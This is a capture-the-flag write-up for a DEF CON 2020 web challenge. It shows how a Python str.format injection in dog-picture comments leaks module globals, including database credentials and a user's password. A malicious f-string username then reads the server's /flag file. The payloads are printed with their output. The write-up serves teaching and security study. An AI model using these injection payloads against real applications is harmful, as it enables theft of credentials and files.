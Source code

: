 # DEF CON CTF Qualifier 2020 – Challenge Name

* **Category:** web
* **Points:** 151

## Challenge

> DogOOOs is a new website where members can rate pictures of dogs. We think there might still be a few bugs, can you check it out? In this challenge, the flag is located in the root directory of the server at /flag.
> 
> http://dogooos.challenges.ooo:37453
> 
> dogooos.challenges.ooo 37453
> 
> Files:
> 
> [dogooo_comments.py](dogooo_comments.py) a881e06d1d70809ffdc9149a5be5b5de6796542f2ed2225fd43d451fde2c8c78
> 
> [loaddata.py](loaddata.py) 0b57622ec86e02c0d8726538161dffb1e13ba1a18b7538354c12f762e4947c23

## Solution

The website allows you to upload and comment pictures of dogs.

There is an interesting endpoint at `/dogooo/runcmd` that contains a remote shell functionality, but it can't be used due to an `HTTP 502 Bad Gateway` error.

Several functionalities can be used only by authenticated users (i.e. `@login_required` annotations). There is an endpoint that can be used to create new users (i.e. `/dogooo/user/create`), but even this functionality requires the login.

A public functionality is the `/dogooo/deets/<postid>` that can be used to insert a new comment under a picture.

The comment is inserted with a two-step procedure:
1. the comment is inserted like a preview and showed into the webpage;
2. the content of the comment is strictly validated and inserted into the database.

Analyzing the code for the first step, in the [loaddata.py](loaddata.py) file, an interesting line of code can be found into `get_comments` function.

```python
def get_comments(self):
    out = ""
    for ccnt, cmt in enumerate(self.comments):
        fmt_cmt = cmt.comment.format(rating=self.__dict__)
        form_save = f"""
            <form action="/dogooo/deets/add/{self.id}" method="POST">
                <input type=hidden id="comment" name="comment" value='{fmt_cmt}'></textarea>
                <input type=hidden id="commenter" name="commenter" value='{cmt.author}'/>
                <input type=submit value="Save" />
            </form>
        """
        if cmt.preview:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author} {form_save} </ul>\n"
        else:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author}</ul>\n"

    return out
```

The interesting line is the following.

```
fmt_cmt = cmt.comment.format(rating=self.__dict__)
```

It seems that if you use a format string like `{rating}` into the comment text, then the content of `self.__dict__` can be printed.

Trying it, the following content will be printed into the preview webpage.

```html
<ul class='square'>{'id': 3, 'rating': 13, '_message': "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 'pic_loc': 'images/img_3.jpg', 'author': 'demidog', 'comments': [<app.loaddata.Comment object at 0x7fc4eaadf160>, <app.loaddata.Comment object at 0x7fc4eaadf1f0>, <app.loaddata.Comment object at 0x7fc4eaadf1c0>, <app.loaddata.Comment object at 0x7fc4eaadf280>, <app.loaddata.Comment object at 0x7fc4eaadf3d0>, <app.loaddata.Comment object at 0x7fc4eaadf430>, <app.loaddata.Comment object at 0x7fc4eaadf490>, <app.loaddata.Comment object at 0x7fc4eaadf4f0>, <app.loaddata.Comment object at 0x7fc4eaadf550>, <app.loaddata.Comment object at 0x7fc4eaadf5b0>, <app.loaddata.Comment object at 0x7fc4eaadf610>, <app.loaddata.Comment object at 0x7fc4eaadf670>, <app.loaddata.Comment object at 0x7fc4eaadf6d0>, <app.loaddata.Comment object at 0x7fc4eaadf730>, <app.loaddata.Comment object at 0x7fc4eaadf790>, <app.loaddata.Comment object at 0x7fc4eaadf7f0>, <app.loaddata.Comment object at 0x7fc4eaadf850>, <app.loaddata.Comment object at 0x7fc4eaadf8b0>, <app.loaddata.Comment object at 0x7fc4eaadf910>, <app.loaddata.Comment object at 0x7fc4eaadf970>, <app.loaddata.Comment object at 0x7fc4eaadf9d0>, <app.loaddata.Comment object at 0x7fc4eaadfa30>, <app.loaddata.Comment object at 0x7fc4eaadfa90>, <app.loaddata.Comment object at 0x7fc4eaadfaf0>, <app.loaddata.Comment object at 0x7fc4eaadfb50>, <app.loaddata.Comment object at 0x7fc4eaadfbb0>, <app.loaddata.Comment object at 0x7fc4eaadfc10>, <app.loaddata.Comment object at 0x7fc4eaadfc70>, <app.loaddata.Comment object at 0x7fc4eaadfcd0>, <app.loaddata.Comment object at 0x7fc4eaadfd30>, <app.loaddata.Comment object at 0x7fc4eaadfd90>, <app.loaddata.Comment object at 0x7fc4eaadfdf0>, <app.loaddata.Comment object at 0x7fc4eaadfe50>, <app.loaddata.Comment object at 0x7fc4eaadfeb0>, <app.loaddata.Comment object at 0x7fc4eaadff10>, <app.loaddata.Comment object at 0x7fc4eaadff70>, <app.loaddata.Comment object at 0x7fc4eaadffd0>, <app.loaddata.Comment object at 0x7fc4eaae6070>, <app.loaddata.Comment object at 0x7fc4eaae60d0>, <app.loaddata.Comment object at 0x7fc4eaae6130>, <app.loaddata.Comment object at 0x7fc4eaae6190>, <app.loaddata.Comment object at 0x7fc4eaae61f0>, <app.loaddata.Comment object at 0x7fc4eaae6250>, <app.loaddata.Comment object at 0x7fc4eaae62b0>, <app.loaddata.Comment object at 0x7fc4eaae6310>, <app.loaddata.Comment object at 0x7fc4eaae6370>, <app.loaddata.Comment object at 0x7fc4eaae63d0>, <app.loaddata.Comment object at 0x7fc4eaae6430>, <app.loaddata.Comment object at 0x7fc4eaae6490>, <app.loaddata.Comment object at 0x7fc4eaae64f0>, <app.loaddata.Comment object at 0x7fc4eaae6550>, <app.loaddata.Comment object at 0x7fc4eaae65b0>, <app.loaddata.Comment object at 0x7fc4eaae6610>, <app.loaddata.Comment object at 0x7fc4eaae6670>, <app.loaddata.Comment object at 0x7fc4eaae66d0>, <app.loaddata.Comment object at 0x7fc4eaae6730>, <app.loaddata.Comment object at 0x7fc4eaae6790>, <app.loaddata.Comment object at 0x7fc4eaae67f0>, <app.loaddata.Comment object at 0x7fc4eaae6850>, <app.loaddata.Comment object at 0x7fc4eaae68b0>, <app.loaddata.Comment object at 0x7fc4eaae6910>, <app.loaddata.Comment object at 0x7fc4eaae6970>, <app.loaddata.Comment object at 0x7fc4eaae69d0>, <app.loaddata.Comment object at 0x7fc4eaae6a30>, <app.loaddata.Comment object at 0x7fc4eaae6a90>, <app.loaddata.Comment object at 0x7fc4eaae6af0>, <app.loaddata.Comment object at 0x7fc4eaae6b50>, <app.loaddata.Comment object at 0x7fc4eaae6bb0>, <app.loaddata.Comment object at 0x7fc4eaae6c10>, <app.loaddata.Comment object at 0x7fc4eaae6c70>, <app.loaddata.Comment object at 0x7fc4eaae6cd0>, <app.loaddata.Comment object at 0x7fc4eaae6d30>, <app.loaddata.Comment object at 0x7fc4eaae6d90>, <app.loaddata.Comment object at 0x7fc4eaae6df0>, <app.loaddata.Comment object at 0x7fc4eab30af0>]} - author
```

As you can read [here](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/), this code can be abused to read secret data.

The following code can be used to access *globals* objects.

```python
{rating[comments][0].__class__.__init__.__globals__}
```

It will give the following output.

```html
<ul class='square'>{'__name__': 'app.loaddata', '__doc__': None, '__package__': 'app', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, '__spec__': ModuleSpec(name='app.loaddata', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, origin='./app/loaddata.py'), '__file__': './app/loaddata.py', '__cached__': './app/__pycache__/loaddata.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2020 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'connect': <function Connect at 0x7fc4ed0c4700>, 'f': <class 'fstring.fstring.fstring'>, 'clean': <function clean at 0x7fc4ed09f310>, 'json': <module 'json' from '/usr/lib/python3.8/json/__init__.py'>, 'post_results': ((3, "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 2, 13, 'images/img_3.jpg', 2, 'demidog', 'princesses_password'),), 'jf': <_io.TextIOWrapper name='/dbcreds.json' mode='r' encoding='UTF-8'>, 'jdata': {'db_user': 'dogooo', 'db_pass': 'dogZgoneWild'}, 'db_user': 'dogooo', 'db_pass': 'dogZgoneWild', 'Comment': <class 'app.loaddata.Comment'>, 'Post': <class 'app.loaddata.Post'>, 'get_posting': <function get_posting at 0x7fc4ed1fe940>, 'UserMixin': <class 'flask_login.mixins.UserMixin'>, 'save_comment': <function save_comment at 0x7fc4eb2819d0>, 'get_all_posts': <function get_all_posts at 0x7fc4eb281af0>, 'create_post_entry': <function create_post_entry at 0x7fc4eab0c0d0>, 'User': <class 'app.loaddata.User'>, 'user_create_entry': <function user_create_entry at 0x7fc4eab1c040>, 'get_login': <function get_login at 0x7fc4eab1c280>, 'get_user': <function get_user at 0x7fc4eab1c310>} - author
```

From this data you can spot user credentials:
* username: `demidog`;
* password: `princesses_password`;

So now you can authenticate into the system and **you can create new users**.

During the authentication, an interesting behavior can be spot. The `login` method ([dogooo_comments.py](dogooo_comments.py)) uses the *f-Strings* functionality of Python 3, [which is very powerful formatting syntax](https://realpython.com/python-f-strings/) and can be used to call methods.

```python
@app.route("/dogooo/login", methods=["GET", "POST"])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = get_login(username, password)
        if user is not None:
            login_user(user)
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")

        else:
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Login+FAILED")
    else:
        return abort(401)
```

The interesting line is the following.

```python
return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")
```

The `get_user_info` method of the `User` class into [loaddata.py](loaddata.py) uses the *f-Strings* functionality on the `username` field.

```python
from fstring import fstring as f
...   ...   ...
def get_user_info(self):
    return f(self.username)
```

So you can create a new user with a malicious username that could trigger a RCE during the authentication. The malicious username is: `{open('/flag').read()}`.

Authenticating with this user, you will be redirect to the following address.

```
http://dogooos.challenges.ooo:37453/dogooo/show?message=Welcom+back+OOO%7Bdid%20you%20see%20my%20dog%7D
```

Which contains the flag in the URL.

![flag.png](flag.png)

So the flag is the following.

```
OOO{did you see my dog}
```